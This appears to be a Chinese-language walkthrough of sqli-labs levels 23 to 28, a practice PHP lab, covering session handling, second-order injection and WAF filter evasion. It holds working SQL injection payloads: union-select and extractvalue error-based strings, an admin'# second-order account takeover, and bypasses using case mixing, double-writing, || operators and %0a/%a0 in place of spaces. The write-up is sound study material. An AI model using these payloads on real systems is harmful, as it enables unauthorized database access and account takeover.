sqlilabs23-28
0x01 less23
函数分析
1 | preg_replace函数执行一个正则表达式的搜索和替换。 |

payload
payload需要闭合id前后单引号
构造payload：-1'(闭合id前引号) union select 1,@@datadir,'3（闭合id后引号）

因为值能输出一个select查询值，id=-1作用使得union前的select语句查询无效
利用报错注入和延时注入 可以采用的后缀payload为:or '1'='1 进行闭合。
xml报错payload：id=1 ' or extractvalue(1,concat(0x7e,(select database()),0x7e)) or '1'='1

爆库长度:?id=-1'%20 union select 1,length(database()),'2

0x02 less24
session定义
参考链接:https://blog.csdn.net/zhengxijia2012/article/details/73437376
- 保持用户与服务端接通状态
- 弥补了HTTP无状态协议
- 会话的发明使得一个用户在多个页面间切换时能够保存他的信息,所以seesion注册的变量为全局变量
- 唯一的标识符，会话ID，存放在客户端的 cookie，要么经由 URL传递
作用：身份认证，程序状态记录，页面之间参数传递session函数
PHP5使用$_SESSION[‘xxx’]=xxx注册SESSION全局变量session_start():开始一个会话或者返回已存在的会话
执行条件： - php.ini启用了session.auto_start=1
- 调用之前浏览器不能有任何输出，包括类的调用
分析less24源码
代码比较少就一个个PHP文件查看，分析各个PHP执行的流程和跳转的条件。学习执行Sql语句情况
查看index.php。由于各个文件PHP都指向了index.php，而index.php判断session和cookie创建之后链接到logged-in.php.所以会造成不用在url填入*.php都会链接到logged-in.php
login.php：创建session cookie，导向logged-in.php

logged-in.php:重置密码之后，触发submit=submit，跳转pass_change.php


pass_change.php:$pass=$re_pass相同>>执行sql语句>>where 判断username，curr_pass是否匹配数据库>>$row数组非空>>密码修改成功
若触发logout (submit=submit1)>>删除session,cookie


二次注入
二次排序注入：也称位存储型注入，将可能造成sql注入的语句存入到数据库中，当再次调用这个恶意构造的字符时，就可以发出sql注入。
二次排序注入思路：
- 构造数据payload1，在浏览器或其他软件提交HTTP数据报文到服务端处理，报文中带有恶意构造的sql语句或命令。
- 服务端会将构造的数据payload1存储，通常保存在数据库中。保存的目的是服务端与客服端做交互时提供数据基础。
- 第二次构造数据payload2，发送与第一次构造的payload1不同数据
- 服务端会处理第二个请求，为了处理该请求，服务端会访问数据库并处理该请求。导致请求会在payload1中的服务环境中执行。
- 服务端返回的处理结果可以判断是否为二次注入。
less24二次注入演示
payload：注册账户为admin’#，登陆修改密码，修改为admin密码


想着接着试试报错注入或延时注入，但是报错注入有die()限制,延时注入有数据库字段长度限制都无法成功，GG


0x03 less25

目的：绕过 OR&AND 过滤

绕过思路：
（1）大小写变形 Or,OR,oR
（2）编码，hex，urlencode
（3）添加注释/or/
（4）利用符号 and=&& or=||
（5）双写绕过
payload：id=1’ || extractvalue(1,concat(0x7e,database(),0x7e))–+

双写绕过：oorrder by 3–+

注释绕过 apache下解析不出来/**/ %00.猜想应该是PHP版本原因

0x04 less-25a
与less-25相同 差别在$id值是整型
同样可用||&& 替换and or
0x05 less-26
该关卡把空格过滤
1.编写fuzz测试可用hex
2.借用fuzz脚本的可用替换，构造extractvalue报错注入http://127.0.0.1/sqlilabs/Less-26/?id=1%27%0a||%0aextractvalue(1,concat(0x7e,(select%20@@datadir),0x7e))%0a||%0a%271%27=%271
联合注入，延时注入都是OK的

在UBUNTU下利用FUZZ查看联合查询可用绕过注入
争对union select 1,user,2;

0x06 less-26a
该题的payload:1’) || (‘1’)=(‘1
到这个地方就开始对HEx解析异常，转用ubuntu系统
构造payload:id=100%27)%a0union%a0select%a01,user(),(%273

0x07 less-27
过滤代码如下
1 | function blacklist($id) |
采用对UNION SELECT 大小写混写绕过注入

0x08 less27a
将less-27 单引号改为双引号就OK了

0x09 less-28|28a
过滤（union select）组合字符串，利用fuzz进行测试


总结
- fuzz脚本的编写有利于对绕过字符的猜解，不用一个个盲注。
- PHP的正则表达式在其中起到重要作用一定要认真学习
- 多编写python脚本有利于理解sql注入
- 以上都是比较简单的waf防注入，还是需要多练习。fighting